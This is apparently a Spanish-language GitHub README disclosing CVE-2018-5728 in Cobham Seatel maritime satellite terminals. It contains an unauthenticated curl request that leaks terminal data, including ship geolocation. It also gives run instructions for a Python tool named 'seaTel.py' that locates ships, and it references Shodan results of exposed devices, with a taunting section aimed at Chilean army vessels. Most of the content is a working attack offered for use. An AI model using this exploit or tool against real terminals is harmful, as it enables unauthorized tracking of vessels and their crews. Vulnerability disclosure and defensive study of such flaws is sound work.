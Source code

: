 # Terminales Seatel 
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.

![seatel_home](img/Radomos.jpg) 


#  [Exploit] show DVR Credentiales

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	

### Simple PoC:

```
	$> curl "http://<dvr_host>:<port>/cgi-bin/getSysStatus"

```
## In the Wild:
![seatel_dorks_0](img/shodan_poc_1.png) 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :
![seatel_poc_4](img/poc_tool_1.png)
![seatel_poc_4](img/poc_tool_2.png)


### Extra: CHILE ARMY !!!
![chile_army_1](img/2.jpg)
![chile_army_2](img/4.jpeg)


### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd